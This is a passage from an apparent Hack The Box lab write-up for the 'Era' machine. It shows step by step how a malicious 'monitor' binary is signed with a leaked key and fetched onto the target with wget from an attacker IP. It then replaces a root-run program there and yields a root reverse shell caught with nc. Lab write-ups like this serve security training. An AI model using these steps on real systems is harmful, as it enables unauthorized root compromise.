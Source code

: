 Remember we have get he file `key.pem` and `x509.genkey`
We need to sign our malicious monitor here
```
https://github.com/NUAA-WatchDog/linux-elf-binary-signer/tree/master
```
This tool would help us finish that
```
git clone https://github.com/NUAA-WatchDog/linux-elf-binary-signer.git

┌──(wither㉿localhost)-[~/Templates/htb-labs/Era/linux-elf-binary-signer]
└─$ make clean
gcc -o elf-sign elf_sign.c -lssl -lcrypto
```
Then sign the monitor
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ ./linux-elf-binary-signer/./elf-sign sha256 key.pem key.pem monitor
 --- 64-bit ELF file, version 1 (CURRENT), little endian.
 --- 27 sections detected.
 --- Section 0006 [.text] detected.
 --- Length of section [.text]: 480697
 --- Signature size of [.text]: 458
 --- Writing signature to file: .text_sig
 --- Removing temporary signature file: .text_sig

```

Finally replace the monitor and wait for reverse shell
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.79 - - [27/Jul/2025 15:17:47] "GET /monitor HTTP/1.1" 200 -

eric@era:/opt/AV/periodic-checks$ wget http://10.10.14.6/monitor
eric@era:/opt/AV/periodic-checks$ chmod +x monitor.1
eric@era:/opt/AV/periodic-checks$ rm monitor
eric@era:/opt/AV/periodic-checks$ mv monitor.1 monitor
eric@era:/opt/AV/periodic-checks$ ls -al
total 756
drwxrwxr-- 2 root devs   4096 Jul 27 05:41 .
drwxrwxr-- 3 root devs   4096 Jul 22 08:42 ..
-rwxrwxr-x 1 eric eric 759474 Jul 27  2025 monitor
-rw-rw---- 1 root devs    331 Jul 27 05:41 status.log

```
Then you can get the reverse shell here.
```
┌──(wither㉿localhost)-[/opt/utilities]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.79] 56294
bash: cannot set terminal process group (8386): Inappropriate ioctl for device
bash: no job control in this shell
root@era:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
